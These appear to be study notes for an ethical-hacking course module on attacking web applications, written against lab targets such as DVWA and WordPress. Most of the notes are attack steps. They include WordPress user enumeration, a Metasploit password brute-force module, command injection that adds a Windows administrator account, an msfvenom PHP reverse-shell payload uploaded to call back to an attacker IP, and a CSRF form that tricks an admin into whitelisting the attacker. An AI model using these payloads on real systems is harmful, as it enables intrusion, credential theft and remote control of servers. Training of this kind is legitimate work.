 # Module 14 - Hacking Web Applications #

## Exploiting Parameter Tampering and XSS Vulnerabilities in Web Applications ##
Changing URL parameters to obtain users information. Adding ``` <script>You've been Hacked</script> ``` to a field that reflects information.

- - - -

## Enumerating and Hacking a Web Application ##

### WPScan ###
``` wpscan --url <URL> --enumerate u ``` - Enumerates WordPress information.

### Metasploit ###
``` msfconsole ```

1. ``` use auxiliary/scanner/http/wordpress_login_enum ```
2. ``` show options ```, ``` set PASS_FILE <Path to the Password Wordlist File> ```, ``` set RHOSTS <Target IP> ```, ``` set RPORT <Target Website Port> ```, ``` set TARGETURI <Target URL> ```, ``` set USERNAME <Username to Crack the Password - Ex. admin> ```
3. ``` exploit ```

Try the credentials in ``` <URL>/wp-login.php ```.


- - - -

## Exploiting Remote Command Execution Vulnerability to Compromise a Target Web Server ##
Dvwa:

``` ping 10.10.10.10 | net user test /add ``` - To add a user 
``` | net localgroup Administrators test /add ``` - Add the user to the Administrators group


- - - -

## Auditing Web Application Framework ##

### Vega ###
Scan > Start New Scan > Enter a Base URI for Scan


- - - -

## Website Vulnerability Scanning ##

### Acunetix WVS ###
1. Add Target
2. General > Business Criticality: High
3. Scan > Select the Scan Type, Report and Schedule


- - - -

## Exploiting File Upload at Different Security Levels ##
``` msfvenom -p php/meterpreter/reverse_tcp lhost=<Attacker IP> lport=<Attacker Listener Port> -f raw ``` - Generating the payload. Copy it to a .php file and upload it to the vulnerable functionality. 

Set up the listener. To execute the payload, navigate to the uploaded file in the browser.


- - - -

## Performing Cross-Site Request Forgery (CSRF) Attack ##
CSRF in a Wordpress site.

### WPScan ###
``` wpscan -u <URL> --enumerate vp ``` - To enumerate vulnerable plugins. The plugin _Wordpress Firewall 2_ is vulnerable to CSRF.

Create the _HTML_ file:
```
  <form method="POST" action="<URL>/wp-admin/options-general.php?page=wordpress-firewall-2%2Fwordpress-firewall-2.php">
    <script>alert("As an Admin, To enable additional security to your Website. Click Submit")</script>
    <input type="hidden" name="whitelisted_ip[]" value="<Attacker IP>" >
    <input type="hidden" name="set_whitelist_ip" value="Set Whitelisted IPs" class="button-secondary" >
    <input type="submit" >
  </form> 
```

Lure the victim to execute the script and click on 'Submit'. It will perform the actions in the script: whitelisting the attacker IP so that the firewall does not affect its requests.
